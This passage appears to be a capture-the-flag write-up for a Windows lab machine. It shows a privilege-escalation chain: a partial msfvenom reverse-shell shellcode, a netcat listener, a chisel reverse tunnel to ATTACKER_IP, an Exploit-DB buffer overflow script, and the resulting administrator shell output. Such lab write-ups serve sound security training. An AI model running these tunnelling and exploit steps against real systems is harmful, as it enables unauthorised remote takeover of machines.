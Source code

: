 ```python
payload += b"\x01\xec\xe9\xe5\xb1\x78\x6e\x79\x21\xf3\x32\xe2"
payload += b"\xdc\x9e\x96\x99\x6e\x0c\x48\x03\xeb\x90\xf8\xa0"
payload += b"\xdd\x4d\x7d\x42\x02\xa0\x18\xac\x21\xd7\x86\x82"
payload += b"\xc0\x5f\x22\xfb\x3b\xaf\x82\xca\x0b\xe1\xeb\x18"
payload += b"\x42\xcf\x3d\x41\xae\x1b\x76\xb2\xce"
```

Note the above msfvenom exploit is with attempt a connection to netcat on 4443. So we need _another_ listener on 4443 for when we execute the buffer overflow.

Run `nc -nlvp 4443` on attacker machine and leave it. Eventually this will be the netcat that gives us root access. 

### Start chisel server on attacker machine

```shell
./chisel server --port 8088 --reverse
```

### Start chisel client on victim with port forward, connect to attacker

```console
./chisel.exe client ATTACKER_IP:8088 R:8888.127.0.0.1:8888
```

### Now ports forwarded, run exploit on attacker

```shell
python /usr/share/exploitdb/exploits/windows/remote/48389.py
```
### Confirm root shell in netcat listening on 44443
```console
kali@kali:~$ nc -nlvp 4443
listening on [any] 4443 ...
connect to [ATTACKER_IP] from (UNKNOWN) [VICTIM_IP] 49730
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```